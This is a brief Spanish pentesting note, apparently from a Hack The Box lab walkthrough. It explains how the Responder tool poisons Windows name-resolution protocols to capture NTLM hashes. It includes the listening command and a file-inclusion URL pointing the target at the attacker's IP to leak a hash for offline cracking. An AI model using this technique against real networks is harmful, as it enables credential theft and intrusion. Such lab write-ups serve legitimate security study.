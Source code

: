 La utilidad **Responder** en Linux es una herramienta usada en **pentesting de redes Windows**, especialmente en ataques a protocolos de red que usan **autenticación NTLM**.
**Responder** actúa como un servidor malicioso en la red local. Su objetivo es **capturar credenciales NTLM** enviadas automáticamente por máquinas Windows vulnerables que intentan resolver nombres por la red.

---

### 📌 Usos principales:

1. **Capturar hashes NTLMv1/NTLMv2** para crackeo offline
2. **Responder a peticiones de protocolos como:**
    - LLMNR (Link-Local Multicast Name Resolution)
    - NBT-NS (NetBIOS Name Service)
    - MDNS
    - WPAD (Web Proxy Auto Discovery)
3. **Realizar ataques de spoofing o relay**, como:
    - Servir archivos falsos por SMB
    - Redirigir tráfico web
    - Montar ataques tipo _Man-in-the-Middle_

-------
## Ponerse en escucha

```shell
responder -I InterfazDeRed
Ejemplo: responder -I tun0
```
![[Responder1.png]]

Estando en escucha con el responder entramos a este link `http://unika.htb/?page=//10.10.16.16/test` para que envie una peition y interceptarla (El archivo test no existe)
El resultado se va a almacenar en el archivo ubicado en el directorio `/usr/share/responder/logs`

![[Responder3.png]]
Y en este caso nos responde con un hash que posteriormente vamos a crackear con [[john]]
![[Responder2.png]]
